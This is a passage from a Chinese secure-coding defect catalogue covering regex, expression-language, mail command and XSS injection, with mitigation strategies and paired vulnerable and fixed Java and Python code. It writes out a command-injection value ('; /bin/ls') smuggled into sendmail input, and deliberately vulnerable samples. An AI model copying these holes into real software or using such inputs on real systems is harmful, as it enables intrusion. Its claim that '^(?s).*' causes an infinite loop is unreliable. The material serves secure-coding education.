import java.util.ArrayList;
import java.util.List;

public class SafeFileSearch {
    public static void main(String[] args) {
        // 用户输入的搜索模式
        String searchPattern = args[0];
        List<String> command = new ArrayList<>();
        command.add("find");
        command.add("/");
        command.add("-name");
        command.add(searchPattern);
        
        try {
            ProcessBuilder processBuilder = new ProcessBuilder(command);
            Process process = processBuilder.start();
            // 处理输出...
        } catch (IOException e) {
            // ...异常处理;
        }
    }
}
```

**修复建议**
- 避免字符串拼接：在修复后的代码中，我们不再将用户输入直接拼接到命令字符串中，而是将命令拆分为单独的参数列表。
- 使用`ProcessBuilder`：`ProcessBuilder`能够正确处理每个参数，避免命令注入，因为它不会将参数作为单个字符串处理，而是将它们作为独立的参数传递。
- 参数化命令：通过将命令拆分为参数列表，确保每个参数都是独立的，防止用户输入中的特殊字符被解释为额外的命令或选项。

#### CWD-1069-000 参数注入

#### CWD-1069-001 tar命令拼接参数导致命令注入

**业界缺陷**

- [CWE-88: Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')](https://cwe.mitre.org/data/definitions/88.html)
---

# CWD-1070 正则表达式注入

**别名: **正则表达式错误执行；外部数据直接拼接正则；

**描述**
在包含具有用户控制输入的可执行组件中使用正则表达式（或者允许用户通过插入模式修饰符来启用执行）。当用户控制的输入被插入到一个字符串中，这个字符串稍后被解析为正则表达式。可能会导致正则表达式注入。攻击者可以通过输入特殊字符来改变正则表达式的匹配逻辑，从而绕过验证。为了避免这种漏洞，开发人员需要对用户输入进行严格的转义处理，并确保正则表达式的结构不会受到用户输入的影响。

**语言: **JAVA,PYTHON

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：避免动态构造正则表达式
  在设计阶段，尽量避免使用用户输入来动态构造正则表达式。如果必须使用，应严格限制输入的格式和范围。
- 策略2：使用白名单机制
  在设计时，考虑使用白名单机制来限制用户输入的范围，确保输入符合预期的格式和内容。
- 策略3：限制正则表达式复杂度
  设计时应考虑正则表达式的复杂度，避免使用过于复杂的模式，以防止潜在的性能问题。
- 策略4：监控和日志记录
  记录所有敏感操作，便于审计和检测异常行为。

**编码**
- 策略1：避免动态构造正则表达式
  尽量避免将用户输入直接嵌入到正则表达式中，而是使用固定的模式。
- 策略2：转义特殊字符
  如果必须使用用户输入，确保对输入进行转义（如：`.` `+` `*` `?` `-` `[]`等），以防止特殊字符被解释为正则表达式的一部分。
- 策略3：使用更严格的正则表达式
  确保正则表达式能够正确匹配预期的输入，避免特殊字符干扰。
- 策略4：使用参数化查询或白名单机制
  避免直接使用用户输入构造正则表达式。可以使用白名单机制，限制密码的字符范围。
- 策略5：预编译正则表达式
  使用预编译的正则表达式，避免在运行时动态构造正则表达式，减少注入的可能性。
- 策略6：限制执行时间
  在代码中设置正则表达式的执行时间限制，防止攻击者构造复杂的正则表达式导致CPU过载。
- 策略7：遵守安全编码规范
  制定并遵循安全编码规范。

**开发者测试**
- 策略1：输入验证测试
  开发者应编写测试用例，验证所有用户输入是否被正确过滤和转义。

**代码Review**
- 策略1：检查正则表达式构造
  在代码审查过程中，检查所有使用正则表达式的地方，确保没有动态拼接的情况。示例：搜索`regex`、`Matcher`、`Pattern`、`replace`等相关关键字，定位正则表达式（包括Java文件，配置文件、properties文件中的正则表达式），检查该正则是否存在缺陷。
- 策略2：审查输入处理逻辑
  审查代码中对用户输入的处理逻辑，确保所有输入都被正确验证和转义。
- 策略3：检查执行时间限制
  确保代码中有限制正则表达式执行时间的措施，防止性能问题。

**编译构建**
- 策略1：启用安全警告
  配置编译器和构建工具，启用所有相关的安全警告，帮助发现潜在的安全问题。
- 策略2：安全编码规范
  在编译构建阶段，确保开发人员遵循安全编码规范，避免引入漏洞。

**代码检查**
- 策略1：静态代码分析
  使用静态代码分析工具，扫描代码中可能存在的正则表达式注入风险。如：CodeCheck。
- 策略2：动态分析
  使用动态分析工具，在运行时监控正则表达式的使用情况，发现潜在的问题。示例：使用SecFuzz进行扫描。
- 策略3：配置检查工具
  配置代码检查工具，检查是否有不安全的正则表达式构造方式，如动态拼接。

**集成测试**
- 策略1：输入验证测试
  在集成测试中，验证各个模块之间的输入处理是否一致，确保输入被正确处理。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：性能测试
  测试系统在高负载下的性能，确保不会因为正则表达式注入而导致系统崩溃。
- 策略3：模拟攻击测试
  模拟正则表达式注入攻击，确保系统能够有效防御。示例：使用工具如Selenium模拟攻击，测试系统安全性。

**示例**
**案例1: 直接嵌入外部正则导致正则表达式注入**
**语言: **JAVA

**描述**
一个用户登录验证系统，该系统需要验证用户名是否符合特定的格式要求。为了实现这一点，我们使用了正则表达式来匹配用户名。然而，如果我们直接将用户输入的内容嵌入到正则表达式中，可能会导致正则表达式注入漏洞，攻击者可以利用这一点来构造恶意的正则表达式，从而导致服务器崩溃或信息泄露。

**案例分析**
`username` 是直接从用户输入中获取的，并且被直接嵌入到正则表达式中。如果攻击者输入一个恶意构造的正则表达式，例如 `^(?s).*`，这将导致正则表达式引擎进入无限循环，从而导致服务器崩溃。

**反例**
```java
import java.util.regex.Pattern;
import java.util.regex.Matcher;

public class UsernameValidator {
    public static boolean validateUsername(String username) {
        // 直接将用户输入嵌入到正则表达式中
        String pattern = "^" + username + "$";
        return Pattern.matches(pattern, username);
    }

    public static void main(String[] args) {
        java.util.Scanner scanner = new java.util.Scanner(System.in);
        Logger.info("请输入用户名：");
        String username = scanner.nextLine();
        if (validateUsername(username)) {
            // ...用户名有效;
        } else {
            // ...用户名无效;
        }
    }
}
```

**正例**
```java
import java.util.regex.Pattern;
import java.util.regex.Matcher;

public class UsernameValidator {
    public static boolean validateUsername(String username) {
        // 定义一个固定的正则表达式模式，确保用户名只包含字母和数字，长度在3到10之间
        String pattern = "^[a-zA-Z0-9]{3,10}$";
        return Pattern.matches(pattern, username);
    }

    public static void main(String[] args) {
        java.util.Scanner scanner = new java.util.Scanner(System.in);
        Logger.info("请输入用户名：");
        String username = scanner.nextLine();
        if (validateUsername(username)) {
            // ...用户名有效;
        } else {
            // ...用户名无效;
        }
    }
}
```

**修复建议**
- 使用` Pattern.quote()`转义特殊字符：如果必须使用用户输入来构造正则表达式，可以使用 ` Pattern.quote()`对用户输入进行转义，以防止特殊字符被解释为正则表达式的一部分。防止攻击者注入恶意正则表达式。
- 限制输入长度：在正则表达式中添加长度限制（如`{3,10}`），防止过长的输入导致性能问题。
- 避免使用复杂的正则表达式：尽量简化正则表达式，减少潜在的漏洞风险。
- 固定正则表达式模式：不要将用户输入直接嵌入到正则表达式中，而是定义一个固定的正则表达式模式，该模式只允许特定的字符和长度。

**案例2: 直接嵌入外部正则导致正则表达式注入**
**语言: **PYTHON

**描述**
一个用户登录验证系统，该系统需要验证用户名是否符合特定的格式要求。为了实现这一点，我们使用了正则表达式来匹配用户名。然而，如果我们直接将用户输入的内容嵌入到正则表达式中，可能会导致正则表达式注入漏洞，攻击者可以利用这一点来构造恶意的正则表达式，从而导致服务器崩溃或信息泄露。

**案例分析**
`username` 是直接从用户输入中获取的，并且被直接嵌入到正则表达式中。如果攻击者输入一个恶意构造的正则表达式，例如 `^(?s).*`，这将导致正则表达式引擎进入无限循环，从而导致服务器崩溃。

**反例**
```python
import re

def validate_username(username):
    # 直接将用户输入嵌入到正则表达式中
    pattern = f'^{username}$'
    if re.match(pattern, username):
        return True
    else:
        return False

# 示例调用
username = input("请输入用户名：")
if validate_username(username):
    # ...用户名有效
else:
    # ...用户名无效
```

**正例**
```python
import re

def validate_username(username):
    # 定义一个固定的正则表达式模式，确保用户名只包含字母和数字，长度在3到10之间
    pattern = r'^[a-zA-Z0-9]{3,10}$'
    if re.match(pattern, username):
        return True
    else:
        return False

# 示例调用
username = input("请输入用户名：")
if validate_username(username):
    # ...用户名有效
else:
    # ...用户名无效
```

**修复建议**
- 使用`re.escape`对用户输入进行转义：`re.escape`会自动转义所有具有特殊含义的正则表达式字符，防止攻击者注入恶意正则表达式。
- 限制输入长度：在正则表达式中添加长度限制（如`{3,10}`），防止过长的输入导致性能问题。
- 避免使用复杂的正则表达式：尽量简化正则表达式，减少潜在的漏洞风险。
- 固定正则表达式模式：不要将用户输入直接嵌入到正则表达式中，而是定义一个固定的正则表达式模式，该模式只允许特定的字符和长度。

#### CWD-1070-000 正则表达式注入

#### CWD-1070-001 【String】使用java.lang.String下的matches、split、replace、replaceAll、replaceFirst等方法时，正则参数拼接了未经校验的外部数据，导致任意正则可执行，造成正则表达式注入

#### CWD-1070-002 【Pattern】使用java.util.regex.Pattern下的compile、matches等方法时，正则参数拼接了未经校验的外部数据，导致任意正则可执行，造成正则表达式注入

#### CWD-1070-003 【Jayway】使用com.jayway.jsonpath.ReadContext的read方法时，正则参数拼接了未经校验的外部数据，导致任意正则可执行，造成正则表达式注入

#### CWD-1070-004 【Nashorn】使用jdk.nashorn.internal.runtime.regexp.RegExpFactory的compile、create方法时，正则参数拼接了未经校验的外部数据，导致任意正则可执行，造成正则表达式注入

#### CWD-1070-005 【Fastjson】使用com.alibaba.fastjson.JSONPath的构造、read方法时，正则参数拼接了未经校验的外部数据，导致任意正则可执行，造成正则表达式注入

**业界缺陷**

- [CWE-624: Executable Regular Expression Error](https://cwe.mitre.org/data/definitions/624.html)
---

# CWD-1071 表达式语言注入

**别名: **表达式语言语句中使用的特殊元素中和不当（“表达式语言注入”）

**描述**
表达式语言注入（Expression Language Injection, ELI），代码在使用受外部影响的输入构造表达式语言（EL）语句的全部或部分，但未对 EL 语句的特殊元素进行中和或中和不当。这种攻击技术通常用于攻击Web应用程序，攻击者可以利用应用程序中的漏洞，将恶意代码注入到应用程序中的表达式中，从而导致应用程序执行恶意代码，来获取敏感数据或者执行恶意操作，比如删除、修改数据等。


- 在诸如Java Server Page (JSP)的框架中，构造表达式语言（EL）语句的全部或部分，但在执行之前未处理能修改预期 EL 语句的特殊元素。如Java Server Page (JSP)之类的框架允许开发人员在其他静态内容中插入可执行的表达式。如果开发人员没有禁用它们，那么如果攻击者注入表达式，这可能会导致代码执行或其他意外行为。
**语言: **JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：避免动态代码生成
  尽可能避免将用户控制的数据添加到表达式解释器中。如果必须将用户控制的数据添加到表达式解释器，则应执行：
  1. 验证用户输入不会计算为表达式。
  2. 对用户输入进行编码，以确保不作为表达式计算。
- 策略2：使用安全的模板引擎功能
  在使用模板引擎时，尽量使用其提供的安全功能，如参数替换，而不是直接拼接EL表达式或脚本代码。
- 策略3：安全配置
  在允许开发人员禁用或停用EL表达式的处理框架中，进行安全配置。示例：将JSP页面的isELIgnored属性设置为“true”。

**编码**
- 策略1：避免动态代码生成
  尽可能避免将用户控制的数据添加到表达式解释器中。如果必须将用户控制的数据添加到表达式解释器，则应执行：
  1. 验证用户输入不会计算为表达式。
  2. 对用户输入进行编码，以确保不作为表达式计算。
- 策略2：输入验证
  对用户输入进行严格的验证，使用白名单机制，仅允许特定字符，防止恶意表达式注入。
- 策略3：输出编码
  对所有用户提供的数据进行HTML、XML或JavaScript转义，确保输出时不会执行表达式。

**开发者测试**
- 策略1：单元测试
  测试各种输入情况，特别是边界条件和异常输入测试代码的健壮性。

**代码Review**
- 策略1：检查输入处理
  审查所有处理用户输入的代码，确保输入被正确转义或过滤。
- 策略2：审查模板引擎
  确保模板引擎的使用安全，避免动态生成表达式。

**编译构建**
- 策略1：安全配置
  在允许开发人员禁用或停用EL表达式的处理框架中，进行安全配置。示例：将JSP页面的isELIgnored属性设置为“true”。
- 策略2：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略3：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略4：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: Spring应用Thymeleaf EL注入漏洞风险**
**语言: **JAVA

**描述**
一个基于Spring框架的Web应用程序，用于展示用户个性化欢迎信息。该应用程序使用Thymeleaf模板引擎来渲染页面。开发人员在实现欢迎信息功能时，直接将用户输入的内容拼接到Thymeleaf的表达式语言（EL）中，导致了表达式语言注入漏洞。攻击者可以利用该漏洞注入恶意EL表达式，从而执行任意代码或窃取敏感信息。

**案例分析**
1. 动态拼接 EL 表达式：在有风险的代码中，`username`参数被直接拼接到EL表达式中，形成动态的 EL 字符串。例如：
```java
String elExpression = "#{welcome.message('" + username + "')}";
```
这种做法使得`username`的内容被当作EL表达式的一部分来执行。
2. 缺乏输入验证和转义：用户输入未经过任何验证或转义，攻击者可以利用这一点注入恶意EL代码，如执行系统命令或访问敏感数据。

**反例**
```java
@Controller
public class WelcomeController {

    @Autowired
    private UserService userService;

    @GetMapping("/welcome")
    public String showWelcomePage(@RequestParam String username, Model model) {
        User user = userService.getUserByUsername(username);
        String welcomeMessage = "Welcome back, " + username + "!";
        
        // 风险代码：直接将用户输入拼接到Thymeleaf表达式中
        String elExpression = "#{welcome.message('" + username + "')}";
        
        model.addAttribute("message", welcomeMessage);
        model.addAttribute("elExpression", elExpression);
        return "welcome";
    }
}
```

**正例**
```java
@Controller
public class WelcomeController {

    @Autowired
    private UserService userService;

    @GetMapping("/welcome")
    public String showWelcomePage(@RequestParam String username, Model model) {
        User user = userService.getUserByUsername(username);
        String welcomeMessage = "Welcome back, " + username + "!";
        
        // 修复代码：使用Thymeleaf的安全参数替换功能
        model.addAttribute("message", welcomeMessage);
        model.addAttribute("username", username);
        return "welcome";
    }
}
```

**修复建议**
- 避免动态拼接EL表达式：在原始代码中，开发人员直接将用户输入的`username`拼接到EL表达式中，导致潜在的注入风险。修复后，我们避免了动态拼接EL表达式，而是将用户输入作为普通参数传递给模板。
- 使用安全的参数替换：在Thymeleaf模板中，使用`th:text`或`th:utext`等安全的参数替换方式，确保用户输入的内容不会被当作EL表达式执行。例如，在模板中使用`#{welcome.message(${username})}`，而不是直接拼接EL表达式。
- 输入验证和过滤：对用户输入进行严格的验证和过滤，防止恶意字符的注入。例如，可以使用正则表达式限制用户名的格式，避免包含特殊字符。

#### CWD-1071-000 表达式语言注入

#### CWD-1071-001 【Groovy】使用groovy.util.Eval下的me、x、xy、xyz等方法执行不可信参数，造成表达式注入

#### CWD-1071-002 【Groovy】使用groovy.lang.GroovyClassLoader下的通过parseClass方法执行不可信参数，造成表达式注入

#### CWD-1071-003 【Groovy】使用groovy.util.GroovyScriptEngine下的run、createScript、eval等方法执行不可信参数，造成表达式注入

#### CWD-1071-004 【Groovy】使用groovy.lang.GroovyShell下的parse、evaluate等方法执行不可信参数，造成表达式注入

#### CWD-1071-005 【Groovy】使用org.codehaus.groovy.runtime.MethodClosure类时，通过闭包方式调用execute方法执行不可信参数，造成表达式注入

#### CWD-1071-006 【JDK】使用javax.script.CompiledScript下的eval方法执行不可信参数，造成表达式注入

#### CWD-1071-007 【JDK】使用javax.script.ScriptEngine下的eval方法执行不可信参数，造成表达式注入

#### CWD-1071-008 【JEXL】使用org.apache.commons.jexl3.JexlEngine下的createExpression、createScript等方法执行不可信参数，造成表达式注入

#### CWD-1071-009 【JEXL】使用org.apache.commons.jexl3.JxltEngine的createExpression、createTemplate等方法执行不可信参数，造成表达式注入

#### CWD-1071-010 【Jruby】使用org.jruby.RubyRuntimeAdapter下的eval方法执行不可信参数，造成表达式注入

#### CWD-1071-011 【Jruby】使用org.jruby.RubyRuntimeAdapter下的parse方法执行不可信参数，造成表达式注入

#### CWD-1071-012 【EL】使用org.activiti.engine.impl.javax.el.ExpressionFactory下的createExpression、createValueExpression、createMethodExpression等方法创建EL表达式时，使用了不可信参数，造成表达式注入

#### CWD-1071-013 【MVEL】使用org.mvel2.MVEL下的eval，evalToString，evalBoolean，evalFile等方法执行不可信参数，造成表达式注入

#### CWD-1071-014 【MVEL】使用org.mvel2.MVEL下的compileExpression方法编译MVEL表达式时，使用了不可信参数，造成表达式注入

#### CWD-1071-015 【NashornSandbox】使用delight.nashornsandbox.NashornSandbox下的compile、eval方法执行不可信参数，造成表达式注入

#### CWD-1071-016 【OGNL】使用ognl.OgnlContext下的getValue、setValue、parseExpression、compileExpression等方法执行不可信参数，造成表达式注入

#### CWD-1071-017 【SpEL】使用org.springframework.expression.spel.standard.SpelExpressionParser下的parseExpression方法执行不可信参数，造成表达式注入

#### CWD-1071-018 【OGNL】使用Struts2框架采用开发模式(devMode)部署导致OGNL注入

**业界缺陷**

- [CWE-917: Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection')](https://cwe.mitre.org/data/definitions/917.html)
---

# CWD-1072 邮件命令注入

**别名: **输入终止符中和不当；输入终止符；无法移除输入终止符；未能清理输入终止符；输入终止符的清理不当；IMAP/SMTP注入

**描述**
直接使用外部输入的数据，未对数据进行中和，或者中和不当，使这些元素可能被解释为输入终止符。例如，SMTP中的 `.` 表示邮件消息数据的结束，而空字符可以用于字符串的结束。开发人员应该考虑到`终止符`会在其产品的输入向量中被注入 / 删除 / 篡改，使用`黑名单（拒绝列表）`和`白名单（允许列表）`的适当组合，以确保系统仅处理有效的、预期的和适当的输入。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用安全的邮件发送库
  避免直接使用`Runtime.exec()`执行命令，这些库已经处理了输入验证和安全问题。示例：使用`JavaMail API`等安全的邮件发送库，而不是直接调用sendmail。
- 策略2：严格验证和转义输入
  设计系统时，确保所有用户输入都进行严格的验证和转义，特别是在拼接命令字符串时,避免使用不可信数据来构造SMTP命令。
- 策略3：最小权限原则
  确保邮件发送脚本以最小权限运行，限制其执行其他命令的能力。
- 策略4：监控和日志记录
  记录所有敏感操作，便于审计和检测异常行为。

**编码**
- 策略1：输入验证
  1. 假设所有输入都是恶意的。使用 `白名单（接受已知良好）` 的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝其他任何不符合规范的输入，或者将其转换为符合规范的东西。
  2. 在输入验证之前，应将输入解码并规范化为应用程序当前的内部表示。确保应用程序不会无意中对同一输入解码两次。因为这样的错误可以被用来绕过白名单方案，在它们被检查之后引入危险的输入。
  3. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  4. 不要完全依赖于 `黑名单` 查找恶意或格式错误的输入，当代码的环境发生变化时，这很可能会遗漏。这可以给攻击者提供足够的空间来绕过预期的验证。使用`黑名单（拒绝列表）`和`白名单（允许列表）`的适当组合，以确保系统仅处理有效的、预期的和适当的输入。
- 策略2：输出编码
  虽然使用动态生成的查询字符串、代码或将控制和数据混合在一起的命令是有风险的，但有时这可能是不可避免的。
  - 正确引用参数并转义这些参数中的任何特殊字符。示例：如果必须使用`Runtime.exec()`执行命令，可以对用户输入进行转义，防止特殊字符被解释为命令的一部分，使用`java.net.URLEncoder`对输入进行编码。
  - 如果仍然需要一些特殊字符（如空格），请在转义或过滤步骤之后用引号将每个参数括起来。
- 策略3：避免命令拼接
  使用参数化方法构造命令，避免动态拼接，防止注入。
- 策略4：日志记录
  详细记录邮件处理过程，包括输入内容和处理结果，便于后续分析。
- 策略5：遵守安全编码规范
  制定并遵循安全编码规范。

**开发者测试**
- 策略1：单元测试
  测试各种输入情况，特别是边界条件和异常输入测试代码的健壮性。

**代码Review**
- 策略1：代码走读
  有经验的开发人员检查相关代码，确保代码安全。
- 策略2：输入验证检查
  确保所有外部输入都经过严格的验证和转义，防止恶意输入。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略4：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 直接使用`Runtime.exec()`执行邮件命令**
**语言: **JAVA

**描述**
在线教育平台提供用户注册功能，用户在注册后会收到一封激活邮件。该功能使用Java编写，并通过`sendmail`命令行工具发送邮件。然而，由于未对用户输入进行充分的验证和转义，攻击者可以利用邮件内容或主题中的特殊字符注入恶意命令，导致服务器被控制。

**案例分析**
直接将用户输入的`to`、`subject`和`content`拼接到命令字符串中，未进行任何转义或验证。攻击者可以通过在邮件内容中注入特殊字符（如`|`、`&`、`;`等）来执行额外的命令。
- 攻击者在注册时输入邮件内容为`ContentInjectionTest; /bin/ls`，导致命令变为：
```shell
echo -e 'To: attacker@example.com\nSubject: 账户激活\nFrom: system@example.com\n\nContentInjectionTest; /bin/ls' | /usr/sbin/sendmail -t
```
这将执行`/bin/ls`命令，列出当前目录下的文件。

**反例**
```java
import java.io.IOException;

public class EmailSender {
    public static void sendEmail(String to, String subject, String content) {
        String command = "echo -e 'To: " + to + "\nSubject: " + subject + "\nFrom: system@example.com\n\n" + content + "' | /usr/sbin/sendmail -t";
        try {
            // 危险：直接使用`Runtime.exec()`执行命令
            Process process = Runtime.getRuntime().exec(command);
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            // 异常处理...;
        }
    }
}
```

**正例**
```java
import java.util.Properties;
import javax.mail.Message;
import javax.mail.MessagingException;
import javax.mail.Session;
import javax.mail.Transport;
import javax.mail.internet.InternetAddress;
import javax.mail.internet.MimeMessage;

public class EmailSender {
    public static void sendEmail(String to, String subject, String content) {
        Properties props = new Properties();
        props.put("mail.smtp.host", "localhost");
        props.put("mail.smtp.port", "25");
        Session session = Session.getDefaultInstance(props, null);
        
        try {
            // 修复：使用JavaMail API
            MimeMessage message = new MimeMessage(session);
            message.setFrom(new InternetAddress("system@example.com"));
            message.addRecipient(Message.RecipientType.TO, new InternetAddress(to));
            message.setSubject(subject);
            message.setText(content);
            
            Transport.send(message);
        } catch (MessagingException e) {
            // 异常处理...;
        }
    }
}
```

**修复建议**
- 使用安全的邮件发送库：避免直接使用`Runtime.exec()`执行命令，改用`JavaMail API`等安全的邮件发送库。这些库已经处理了输入验证和安全问题。
- 转义用户输入：如果必须使用命令行工具，可以对用户输入进行转义，防止特殊字符被解释为命令的一部分。示例：使用`java.net.URLEncoder`对输入进行编码。

#### CWD-1072-000 邮件命令注入

#### CWD-1072-001 【IMAP协议】直接拼接不可信命令

#### CWD-1072-002 【POP3协议】直接拼接不可信命令

#### CWD-1072-003 【SMTP协议】直接拼接不可信命令

---

# CWD-1073 XSS注入

**别名: **Web页面生成过程中对外部输入中和不当（“跨站脚本”）；跨站脚本（XSS）；CSS；HTML注入；未能清理Web页面中的指令（“跨站脚本”(XSS）)；未能维持网页结构（“跨站脚本”）；反射型XSS /非持久型XSS；存储型XSS /持久型XSS；基于DOM的XSS

**描述**
跨站脚本攻击（XSS）漏洞主要发生在以下情况：


1. 不可信数据进入Web应用程序，通常来自Web请求。2. Web应用程序动态生成包含此不可信数据的网页。3. 在页面生成期间，应用程序不会阻止数据包含Web浏览器可执行的内容，例如JavaScript、HTML标记、HTML属性、鼠标事件、Flash、ActiveX等。4. 受害者通过Web浏览器访问生成的网页，其中包含使用不可信数据注入的恶意脚本。5. 由于脚本来自Web服务器发送的网页，因此受害者的Web浏览器会在Web服务器的域上下文中执行恶意脚本。6. 这实际上违反了Web浏览器的同源策略的意图，该策略规定，一个域中的脚本不应该能够访问资源或运行另一个域中的代码。


跨站脚本有许多场景，其特征是各种术语或涉及不同的攻击拓扑。然而，它们都表明了相同的基本弱点：对危险输入中和不当。XSS主要有三种类型：


1. 反射型XSS（或非持久型）：服务器直接从HTTP请求中读取数据，并在HTTP响应中反射回来。反射型XSS攻击发生在攻击者使受害者向易受攻击的Web应用程序提供危险内容，然后将这些内容反射回受害者并由Web浏览器执行时。传递恶意内容的最常见机制是将其作为参数包含在公开发布或直接通过电子邮件发送给受害者的URL中。以这种方式构造的URL构成了许多网络钓鱼方案的核心，攻击者据此说服受害者访问指向易受攻击站点的URL。网站将攻击者的内容反射回受害者后，由受害者的浏览器执行内容。2. 存储型XSS（或持久性）：应用程序将危险数据存储在数据库、消息论坛、访问者日志或其他受信任的数据存储中。稍后，危险数据随后被读回应用程序并包含在动态内容中。从攻击者的角度来看，注入恶意内容的最佳位置是向许多用户或特别感兴趣的用户显示的区域。感兴趣的用户通常在应用程序中具有提升的权限，或者与对攻击者有价值的敏感数据进行交互。如果其中一个用户执行恶意内容，攻击者可能能够代表该用户执行特权操作，或获得对属于该用户的敏感数据的访问权限。例如，攻击者可能在日志消息中注入XSS，当管理员查看日志时可能无法正确处理。3. 基于DOM的XSS：在基于DOM的XSS中，客户端执行向页面注入XSS；在其他类型中，服务器执行注入。基于DOM的XSS通常涉及发送到客户端的由服务器控制的可信脚本，例如在用户提交表单之前对表单执行健全性检查的Javascript。如果服务器提供的脚本处理用户提供的数据，然后将其注入回网页（例如使用动态HTML），那么基于DOM的XSS是可能的。
一旦恶意脚本被注入，攻击者就可以执行各种恶意活动。攻击者可以将私有信息（例如可能包含会话信息的cookie）从受害者的机器传输给攻击者。攻击者可以代表受害者向网站发送恶意请求，如果受害者拥有管理该站点的管理员权限，这可能会对网站造成特别危险。网络钓鱼攻击可用于模拟受信任的网站，诱骗受害者输入密码，从而使攻击者能够危害受害者在该网站上的帐户。最后，脚本可以利用Web浏览器本身的漏洞，可能接管受害者的计算机，有时被称为“驾车黑客”。


- 在许多情况下，攻击可以在受害者甚至不知道的情况下发起。即使是细心的用户，攻击者也经常使用各种方法对攻击的恶意部分进行编码，例如URL编码或Unicode，请求看起来不太可疑。
**语言: **JAVA,JSP,PHP

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：防火墙
  有效性：中等
  使用可以检测针对此弱点的攻击的应用防火墙。在代码无法修复的情况下（因为它被第三方控制），在应用更全面的软件保障措施时作为紧急预防措施，或提供纵深防御时，它可能是有益的。
- 策略2：库或框架
  1. 使用经过审核的库或框架，不允许这种弱点发生，或者提供更容易避免这种弱点的构造。
  2. 使生成正确编码输出变得更容易的库和框架示例包括`Microsoft的Anti-XSS库`、`OWASP ESAPI Encoding模块` 和 `Apache Wicket`。
- 策略3：了解数据将被使用的上下文以及预期的编码
  1. 当在不同组件之间传输数据时，或者生成可以同时包含多种编码的输出时，例如网页或多部分邮件消息时，这一点尤其重要。研究所有预期的通信协议和数据表示，以确定所需的编码策略。
  2. 对于将输出到另一个网页的任何数据，特别是从外部输入接收的任何数据，请对所有非字母数字字符使用适当的编码。
  3. 同一输出文档的各个部分可能需要不同的编码，这将根据输出是否在
     - HTML正文
     - 元素属性（如src="XYZ"）
     - URI类
     - JavaScript部分
     - 层叠样式表和style属性
  请注意，HTML实体编码仅适用于HTML主体。
- 策略4：在服务端执行安全性检查
  在客户端和服务器端都执行安全性检查。如果仅在客户端执行安全性检查，攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略5：参数化
  使用结构化机制，自动强制数据和代码之间的分离。这些机制可能能够自动提供相关的引用、编码和验证，而不是依赖开发人员在生成输出的每个点提供这种能力。
- 策略6：通过转换执行
  当可接受对象的集合（如文件名或URL）有限或已知时，创建从一组固定输入值（如数字ID）到实际文件名或URL的映射，并拒绝所有其他输入。
- 策略7：减少攻击面
  有效性：有限
  了解不受信任的输入可能进入您的软件的所有潜在领域：参数或参数、Cookie、从网络读取的任何内容、环境变量、反向DNS查找、查询结果、请求标头、URL组件、电子邮件、文件、文件名、数据库以及向应用程序提供数据的任何外部系统。请记住，这些输入可能通过API调用间接获得。

**编码**
- 策略1：使用安全框架 `推荐`
  - 例如：使用`Struts`，从表单bean中写入所有数据，并将bean的`filter 属性设置为 true`。
  - 例如：利用如`htmlspecialchars`函数等安全API处理输出，避免手动编码可能带来的错误。
- 策略2：输入验证 `推荐`
  1. 在处理之前，将所有URI解析为绝对或规范表示。
     ```java
     // Java示例
     String canonicalPath = new File(userInput).getCanonicalPath();
     ```
     - C语言中 `realpath()`
     - Java中 `getCanonicalPath()`
     - ASP.NET中 `GetFullPath()`
     - Perl中 `realpath()`或`abs_path()`
     - PHP中 `realpath()`
  2. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  3. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
